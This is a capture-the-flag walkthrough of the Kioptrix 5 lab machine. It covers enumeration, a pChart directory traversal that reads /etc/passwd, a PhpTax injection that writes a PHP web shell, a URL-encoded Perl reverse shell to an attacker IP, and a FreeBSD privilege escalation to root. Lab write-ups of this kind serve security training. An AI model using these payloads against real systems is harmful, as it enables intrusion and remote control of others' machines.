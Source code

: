 # Kioptrix 5 Walkthrough

We first did some enumeration to identify our vulnerable machine. Using `arp-scan -l` we found our vulnerable machine to be `172.168.48.136`.

We then performed a basic nmap scan to get to know ports that are open and any other basic information that would be of help.

![Enumeration Results](/assets/images/Images/Kioptrix%205/02%20Enum.png)

Our nmap results were the following, with port 22 (ssh) closed, 80 open we would access a web version supported by apache. So we opened our machines IP in our web browser.

The browser pulled up with a message that it work, we did a directory bust with dirb but nothing cropped. So we assumed that there were no any other files for the site. Since this site was listening from port 80 we decided to listen out on what was from port 8080, and below were our findings.

![Enumeration Results](/assets/images/Images/Kioptrix%205/03%20Forbbiden.png)

With this we thought that the site was unreachable, but when we view the source code of the site we came to the realization that the error was hardcoded to the site so it wasn't genuine error code.

![Enumeration Results](/assets/images/Images/Kioptrix%205/04%20smoke%20and%20mirrors.png)

This prompted us to check out the site from port 80 and viewed it's source code and we found a url redirection to a point in the site with `/pChart2.1.3/examples/index.php`. So we decided to visit the site.

![Enumeration Results](/assets/images/Images/Kioptrix%205/05%20back%20log.png)

We only found charts, there was nothing much of importance after looking around for a while, found some code in the imaging map and found that the code is that, that is used to create the charts so that was a dead end too.

![Enumeration Results](/assets/images/Images/Kioptrix%205/06%20back%20server.png)

![Enumeration Results](/assets/images/Images/Kioptrix%205/07%20search.png)

So we decided to look for important files in the backend of the machine's site, so we prompted it with the command:

>http://172.168.48.136/pChart2.1.3/examples/index.php?Action=View&Script=/../../etc/passwd


So we check the usr(User System Resources which contains user files and manually installed files) luckily we found a local folder and the etc folder and the apache22 folder which contained the configuration files.

We read across the document and couldn't find ways to make changes to the configuration file remotely.

![Enumeration Results](/assets/images/Images/Kioptrix%205/09con.png)

So we read the contents at the bottom indicated that the site was only compatible with mozilla/4.0, and our browser was 5.0 so it meant there were files we couldn't access (restricted content).

![Enumeration Results](/assets/images/Images/Kioptrix%205/10%20mozilla%20v.png)

So we decided to look for a work around and found out that we could use to change the user agent of the browser [here](https://www.howtogeek.com/113439/how-to-change-your-browsers-user-agent-without-installing-any-extensions/). We followed the instructions and boom there it was switched from 5.0 to 4.0.

![Enumeration Results](/assets/images/Images/Kioptrix%205/11%20about.png)

![Enumeration Results](/assets/images/Images/Kioptrix%205/12%20general.useragent.override.png)

![Enumeration Results](/assets/images/Images/Kioptrix%205/13%20mozilla%20v.png)

![Enumeration Results](/assets/images/Images/Kioptrix%205/14%20change.pref.png)

After refreshing the page with the new configurations, the page `http://172.168.48.136:8080/` we were presented with an index with a phptax.php file.

![Enumeration Results](/assets/images/Images/Kioptrix%205/15%20index.php.png)

We opened the phptax redirect and it opened a website with a tax file from a William.

![Enumeration Results](/assets/images/Images/Kioptrix%205/16%20php_tax.png)

So we wrote a php script to inject a rce code that will inject a rce.php in the /data folder.

>http://172.168.48.136:8080/phptax/index.php?field=rce.php&newvalue=%3C%3Fphp%20passthru(%24_GET%5Bcmd%5D)%3B%3F%3E


- `field=rce.php` - Specifies the file name to be created or manipulated. In this case, the file rce.php will be created in the ./data/ directory
- `newvalue=%3C%3Fphp%20passthru(%24_GET%5Bcmd%5D)%3B%3F%3E` - This is the URL-encoded PHP code that will be written to the file rce.php.
- `<?php passthru($_GET['cmd']); ?>` - PHP function that executes a system command and outputs the result, Retrieves the value of the cmd parameter from the URL.

With the command execution successfully exploiting the Remote Code Execution (RCE) vulnerability in the PhpTax application we added a script to prompt a cmd parameter in the rce to provide the value of the id of the system with this code:

>http://172.168.48.136:8080/phptax/data/rce.php?cmd=id


- `/phptax/data/rce.php?` - This is the path to the malicious file (rce.php) created in the ./data/ directory of the PhpTax application and file rce.php contains PHP code that allows command execution.

![Enumeration Results](/assets/images/Images/Kioptrix%205/17%20phptax_payload.png)

![Enumeration Results](/assets/images/Images/Kioptrix%205/18%20return_cmd.png)


>http://172.168.48.136:8080/phptax/data/rce.php?cmd=perl%20-e%20%27use%20Socket%3b%24i%3d%22172.168.48.134%22%3b%24p%3d4444%3bsocket(S%2cPF_INET%2cSOCK_STREAM%2cgetprotobyname(%22tcp%22))%3bif(connect(S%2csockaddr_in(%24p%2cinet_aton(%24i))))%7bopen(STDIN%2c%22%3E%26S%22)%3bopen(STDOUT%2c%22%3E%26S%22)%3bopen(STDERR%2c%22%3E%26S%22)%3bexec(%22%2fbin%2fsh%20-i%22)%3b%7d%3b%27


>This is a perl reverse shell `[ perl -e 'use Socket;$i="172.168.48.136";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};' ]` that opens the cmd=id prompt with the reverse shell.


This opened with a netcat on my terminal pulls a bash shell in the netcat listener.

![Enumeration Results](/assets/images/Images/Kioptrix%205/20%20nc%20listener.png)

![Enumeration Results](/assets/images/Images/Kioptrix%205/24%20who%20ami.png)

Since we know that the kioptrix machine is running on FreeBSD we look for a privilege escalation on FreeBSD and we find 2. One has issues in the compilation and so we used the second exploit. We tried opening a simple http server using python and ran it, tried using wget but it didn't function, we could also use fetch which also like wget, so we decided to use netcat which we opened a listener in our Kali terminal and another in our target machine which accepts the file from our listener in the Kali terminal. The exploit gets copied to our target machine.

![Enumeration Results](/assets/images/Images/Kioptrix%205/22%20netcat.png)

We then compiled the exploit and put the output to root.

![Enumeration Results](/assets/images/Images/Kioptrix%205/23%20compile.png)

We then ran the exploit and we get root.

![Enumeration Results](/assets/images/Images/Kioptrix%205/24%20who%20ami.png)

We navigated for any interesting thing since the box is described as a CTF box where the idea in CTFs is to find flags which are used as PoC. According to most CTFs flags in AD games are in var, etc and root folders. So navigating to root folder we get the congrats.txt, we cat and we get this message.

![Enumeration Results](/assets/images/Images/Kioptrix%205/25%20congrats.txt.png)

<mark>The box is completed.</mark>